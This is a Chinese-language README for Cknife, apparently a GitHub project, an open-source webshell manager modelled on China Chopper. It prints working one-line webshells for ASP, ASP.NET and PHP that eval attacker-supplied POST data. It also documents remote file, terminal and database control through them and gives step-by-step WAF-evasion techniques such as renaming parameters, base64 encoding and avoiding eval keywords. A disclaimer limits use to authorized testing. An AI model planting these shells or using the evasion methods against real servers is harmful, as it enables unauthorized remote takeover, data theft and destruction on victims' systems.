 ```yaml
---
project: Cknife
stars: 2430
description: Cknife
---
```


软件名称：Cknife
中文名称：C刀
源码地址：https://github.com/Chora10/Cknife
下载地址：http://pan.baidu.com/s/1nul1mpr  密码：f65g
官方博客：http://www.ms509.com/
作者：	  Chora && MelodyZX
----------------------------------------------------------------------------------------------------------
免责声明：
本工具仅限于安全研究与教学使用，用户使用本工具所造成的所有后果，由用户承担全部法律及连带责任！作者不承担任何法律及连带责任。
----------------------------------------------------------------------------------------------------------
为什么开发Cknife：
1、方便已被授权的渗透测试人员进行渗透测试；
2、方便WAF厂商提升自身WAF的防护能力；
3、方便管理员管理自身网站及服务器。
----------------------------------------------------------------------------------------------------------
为什么开源Cknife：
1、结合大众的力量优化完善本软件；
2、菜刀后门层出不穷，开源来接受大众的监督以及审计。
----------------------------------------------------------------------------------------------------------
理想：希望能在安全研究员以及WAF厂商的对抗中提升国内WAF的防护水平以及安全研究员的实力。
----------------------------------------------------------------------------------------------------------


一、运行环境：

安装了JRE1.7+环境的所有操作系统

二、文件说明：
------------------------------------------------------------------
Cknife.jar	Cknife主程序
------------------------------------------------------------------
Cknife.db	Cknife的数据库(不存在会自动生成)
Config.ini	Cknife的配置文件(不存在会自动生成)
ReadMe.txt	你现在正在看的(可删除)
1.jsp		JSP服务端脚本(可删除)
1.jspx		JSPX服务端脚本(可删除)
------------------------------------------------------------------

三、使用说明：

服务端脚本支持ASP、ASPX、PHP、JSP、JSPX、Customize(自定义)。
代码包含且不限于如下代码（只要能构造出类似eval的函数就行，比如PHP的create\_function、assert等）

ASP:        
<%eval request("Cknife")%>
　	
ASP.NET:    
<%@ Page Language="Jscript"%><%eval(Request.Item\["Cknife"\],"unsafe");%>

PHP:        
<?php @eval($\_POST\['Cknife'\]);?>

JSP:	    
\[代码详见1.jsp\]

JSPX:	    
\[代码详见1.jspx\]

Customize:  
自定义类型,功能代码在服务端保存,理论上支持所有动态脚本,只要正确与C刀进行交互即可。此模式可按需定制，比如只要浏览目录，或是只要虚拟终端功能，代码可以很简短。


四、数据库功能：

首次使用在列表里点击右键，选择数据库管理会提示请先配置数据库，点击配置数据库按钮选择对应的连接方式连接即可。

五、设置功能：

代理功能：在类型处选择代理类型。支持SOCKS、HTTP类型的代理，使用Burp抓取Cknife数据，需选择代理类型为HTTP，并填上对应的IP以及端口即可。
如果想要关闭代理功能，只需要选择代理类型为DIRECT，或者清空用户名或密码，即表示关闭代理。

自定义请求头功能：在文本框里输入要自定义的请求头以及对应的值，可以添加或修改多个请求头。只需要按照如下格式添加即可：
User-Agent:xxx
Cookie:xxx
ms509:Chora
如果想要关闭自定义请求头功能，只需要把文本框内容清空，或者选中关闭选项并确定。

六、过WAF

这是一款跨平台的基于配置文件的中国菜刀，把所有操作给予用户来定义，主程序只是图形的展示，以及数据的发送。
我分开了每一个步骤写入到配置文件里面，用户可以自定义任何代码，包括更改参数名称，参数内容。 
比如： 
SKIN=javax.swing.plaf.nimbus.NimbusLookAndFeel 设置皮肤为nimbus 
SPL=->|               			       表示截取数据的开始符号 
SPR=|<-               			       表示截取数据的结束符号 
CODE=code         			       编码参数 
ACTION=action    			       动作参数 
PARAM1=z1         			       参数1 
PARAM2=z2         			       参数2 
PHP\_BASE64=1   				       当为PHP时，Z1，Z2参数是否开启自动base64加密，如果想定义自己的加密方式则关闭设置为0 
PHP\_MAKE=@eval(base64\_decode($\_POST\[action\])); 生成方式，这里可以不用该方式，可以用你任何想要的方式 
PHP\_INDEX=...             		       显示主页功能的代码放这儿
PHP\_READDICT=...      			       读取主页功能的代码放这儿
PHP\_READFILE=...       			       读取文件功能的代码放这儿
PHP\_DELETE=...           		       删除文件夹以及文件功能的代码放这儿
PHP\_RENAME=...         			       重命名文件夹以及文件功能的代码放这儿
PHP\_RETIME=...         			       修改时间功能的代码放这儿
PHP\_NEWDICT=...        			       新建目录功能的代码放这儿
PHP\_UPLOAD=...          		       上传文件功能的代码放这儿
PHP\_DOWNLOAD=...    			       下载文件功能的代码放这儿
PHP\_SHELL=...              		       虚拟终端功能的代码放这儿
PHP\_DB\_MYSQL=...			       管理MYSQL数据库功能的代码放这儿
ASP\_...=...
ASPX\_...=...
JSP\_...=...

除了修改以上参数过WAF外，程序还额外提供了一种Customize过WAF的模式。
Customize模式原本是用于支持一些程序默认不支持的脚本，比如CFM、ASMX、ASHX、PY等等，只要用户自写的脚本能正确与菜刀进行交互即可。

换一个思考方式，如果我们自写一个PHP脚本实现了列文件以及目录的功能，它能够正确的与C刀进行交互，这个时候如果我们选择PHP(Eval)的连接方式就会连接失败。
应该选择Customize模式进行连接。有人说为什么一句话就可以连接，你偏偏还要写这么多代码用Customize模式连接？如果一个很厉害的WAF检测eval,assert等关键词
，你的一句话实在是饶不过，这个时候你可以不用一句话，就在PHP脚本里用正常代码实现列文件以及目录，然后用Customize模式连接就达到了过WAF的目的。

Customize(自定义)模式跟其他模式一样，每一个步骤也都写入到配置文件里面，用户同样可以参数名称以及参数内容。
比如你自写了用Customize模式连接的Customize.php服务端。显示主页功能提交的参数应该是：密码=1&action=index以及密码=1&action=readdict。
如果C刀普及以后WAF厂商肯定会把readdict列入黑名单，这个时候你就可以修改readdict的名称为其他名称，同样可以修改action的名称，也可以修改1为其他字符
CUS\_MAKE=1 
CUS\_INDEX=index 
CUS\_READDICT=readdict 
CUS\_READFILE=readfile 
CUS\_SAVEFILE=savefile 
CUS\_DELETE=delete 
CUS\_RENAME=rename 
CUS\_RETIME=retime 
CUS\_NEWDICT=newdict 
CUS\_UPLOAD=upload 
CUS\_DOWNLOAD=download 
CUS\_SHELL=shell

七、更新日志：(更新版本后请删除Config.ini文件，重新打开自动生成新版本的Config.ini)

程序在使用过程中难免有各种BUG，及时关注看一下是否有更新吧，说不定己经修补了呢。

已知问题：
Graphite与Metal类型的皮肤互相之间切换不需要重启Cknife，其余类型(Nimbus、Windows、Mac等)的皮肤相互之间切换也不需要重启Cknife，
但是这两种类型的皮肤进行切换就需要重启Cknife才能完全生效，不然最小化、最大化、关闭按钮不会显示，这是Swing架构遗留的问题。

20160729
1、文件管理修复若干BUG
2、文件管理新增修改时间功能
3、文件管理优化界面

20160728
1、数据库管理修复若干BUG
2、数据库管理增加获取表行数
3、数据库管理优化界面

20160623
1、虚拟终端增加右键复制粘贴功能（快捷键Ctrl+C、Ctrl+V）
2、虚拟终端增加上键下键切换历史命令功能
3、数据库管理增加右键导出数据功能

20160622
1、修复ORACLE数据库连接失败的问题
2、修复在某分辨率下添加SHELL对话框里的密码文本框消失的问题
3、更新JSPX脚本

20160620
1、修复虚拟终端低概率执行失败的情况
2、数据库管理界面优化

20160618
1、添加对HTTPS协议的支持
2、修复文件管理右边栏遇到乱码不显示的情况

20160513
1、添加自定义请求头功能

20160511
1、添加设置选项并增加了代理功能
2、增加了对JSPX脚本的支持，连接时脚本类型选择JSP(Eval)

20160426
1、修复JSP连接MYSQL数据库异常的问题
2、虚拟终端增加自定义Cmd路径的功能，命令为setp \[path\]

20160413
1、添加自定义模式shell返回路径的自定义分隔符
2、添加JSP对MSSQL的支持

20160318
1、优化界面，右边栏点击目录后左边栏也会选中
2、修复ASP、ASPX、JSP在打开空目录时会失败的问题
3、将默认皮肤Graphite添加到皮肤切换功能
4、虚拟终端增加标识符方便用户分辨
5、数据库部分功能增加多线程

20160317
1、优化文件管理左边栏的打开方式
2、文件管理所有功能使用多线程，防止高延迟请求界面会卡的情况发生

20160316
1、修复在Linux下默认皮肤显示乱码的问题
2、添加ASPX对MSSQL、ACCESS的支持
3、更换皮肤解决选中后看不清的情况

20160314
1、添加ASP对MSSQL、ACCESS的支持
2、修复中文路径启动失败的问题

20160311
1、修复模拟终端若干BUG；
2、模拟终端使用多线程，防止高延迟请求界面会卡的情况发生

20160310
1、添加JSP对MYSQL、ORACLE的支持
2、修复在Windows下，文件管理会多出一个盘符

20160307
1、连接失败返回详细信息，方便用户分析问题

20160301
1、合并Cknife与Cknife\_Skin
2、添加数据库功能，添加PHP对MYSQL的支持
